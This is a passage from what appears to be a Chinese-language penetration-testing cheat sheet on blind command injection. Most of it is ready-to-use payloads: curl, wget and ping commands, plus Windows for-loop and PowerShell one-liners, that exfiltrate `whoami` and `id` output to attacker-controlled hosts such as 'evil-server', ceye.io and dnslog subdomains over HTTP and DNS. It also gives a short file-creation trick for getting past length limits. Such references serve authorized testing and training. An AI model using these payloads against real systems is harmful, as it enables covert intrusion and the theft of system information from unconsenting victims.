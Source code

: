 #### 无回显

+ 弹 shell

+ DNS 外带数据

```
curl "http://testhash.test.dnslog.link/?`whoami`"
```

+ HTTP 外带

```shell
# linux
curl http://evil-server/`whoami`
wget http://evil-server/$(whoami)
curl xxxx.ceye.io/`whoami`
curl http://xxxx.ceye.io/$(id|base64)
ping -c 1 `whoami`.xxxx.ceye.io

# windows
http:
for /F %x in ('whoami') do start http://xxx.ceye.io/%x
dns请求：
获取计算机名：for /F "delims=" %i in ('whoami') do ping -n 1 %i.xxx.dnslog.info
获取用户名：for /F "delims= tokens=2" %i in ('whoami') do ping -n 1 %i.xxx.dnslog.info

for /F %x in ('whoami') do powershell $a=[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes('%x'));$b=New-Object System.Net.WebClient;$b.DownloadString('http://xxx.ceye.io/'+$a);
```

#### 长度限制

+ 文件构造（参考橘子那个 hitcon）

```shell
>w
将会创建一个名字为 w 的空文件。
```

工具

- [shelling](https://github.com/ewilded/shelling)

### 参考链接

[巧用命令注入的 N 种姿势](https://mp.weixin.qq.com/s/Hm6TiLHiAygrJr-MGRq9Mw)

[https://chybeta.github.io/2017/08/15/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E7%9A%84%E4%B8%80%E4%BA%9B%E7%BB%95%E8%BF%87%E6%8A%80%E5%B7%A7/](https://chybeta.github.io/2017/08/15/命令执行的一些绕过技巧/)


## 文件相关

### 上传

### 包含
